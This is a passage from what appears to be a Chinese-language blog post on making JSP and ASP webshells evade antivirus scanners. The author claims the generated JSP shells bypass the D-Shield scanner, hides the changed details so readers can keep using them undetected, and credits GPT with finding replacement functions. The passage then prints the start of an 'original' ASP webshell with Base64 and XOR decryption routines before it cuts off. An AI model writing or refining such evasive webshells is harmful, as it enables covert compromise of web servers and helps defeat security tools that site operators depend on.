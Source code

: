 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNDu5PTLeFkhIxVMUCdiaRicw3Hp0N6xBFgSH8ibFPMmlDecWe5PkUh119w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNYic9y2z3XRvicspLIZGz2uNjahdiaYOjHibJkggDXOx4icndnsmcPjO2qQw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNodgImbTFcUF3CGQ09PZHicmXe4S8T1u8BOFumuIXQCSbniaKVfWicsy2g/640?wx_fmt=png&from=appmsg "")  
  
  
在生成木马中，就找不到原来的pass 和一个16位的字符了，增加一丢丢迷惑性吧  
  
原本的马中，是有md5函数的，但是这个没有，因为用不到，就给删了。  
  
当然，其中也加了一些其他的东西。这里就不细讲了，防止暴漏，能让大家多用一会。  
  
回到免杀，是的，也过掉了d盾，笔者上面说到的 gpt帮我们找了一些函数，但是都有classcload 过不去，其实不是，经过测试发现，这个是有可以代替的。gpt太强了。这里就不写改过哪里了。大家下载了直接用就好。下个版本在揭露，目前我看网上还没有这种用法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNOMf3pcaMibzNuj8fEyqOJeNibF3xXprwe2NzvVqKAgG7hvyhWibDPhfiaA/640?wx_fmt=png&from=appmsg "")  
  
  
这样呢，我们就过掉了d盾，希望d盾的作者不要看到这个文章，这样的话，就能一直用了。  
  
好了，这样就可以了。暂时先用着，看下效果。  
  
没次生成的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNjkxXicUKiaOR85Du0ibWl2hzb5fSicic2GGqJ3X3eUNiccAdt5ZOzfPhTDOw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNRkdvOzNZj6hbERu8CIu63ovSD8wTQOW36vrTMySYfGGbtOuyELkkyA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNmCKaJia5iayA4vo4BqLZhNdmhibtLxG1m8jUEUOKoCOGooqoFGlOI4odQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNBWibNVIibmFXD8LnLuAfy9Kdon0Q2ZlhOMhzDrMLKFq5n0V53sINeTVg/640?wx_fmt=png&from=appmsg "")  
  
  
ok，没有问题，这样jsp的免杀就完成了。大家在使用的时候，尽量别用pass 和key做密码，太明显了。下面咱们来看asp的。  
##### asp  
  
先看一下原版的🐎  
```
<%
Set bypassDictionary = Server.CreateObject("Scripting.Dictionary")

Function Base64Decode(ByVal vCode)
    Dim oXML, oNode
    Set oXML = CreateObject("Msxml2.DOMDocument.3.0")
    Set oNode = oXML.CreateElement("base64")
    oNode.dataType = "bin.base64"
    oNode.text = vCode
    Base64Decode = oNode.nodeTypedValue
    Set oNode = Nothing
    Set oXML = Nothing
End Function

Function decryption(content,isBin)
    dim size,i,result,keySize
    keySize = len(key)
    Set BinaryStream = CreateObject("ADODB.Stream")
    BinaryStream.CharSet = "iso-8859-1"
    BinaryStream.Type = 2
    BinaryStream.Open
    if IsArray(content) then
        size=UBound(content)+1
        For i=1 To size
            BinaryStream.WriteText chrw(ascb(midb(content,i,1)) Xor Asc(Mid(key,(i mod keySize)+1,1)))
        Next
    end if
```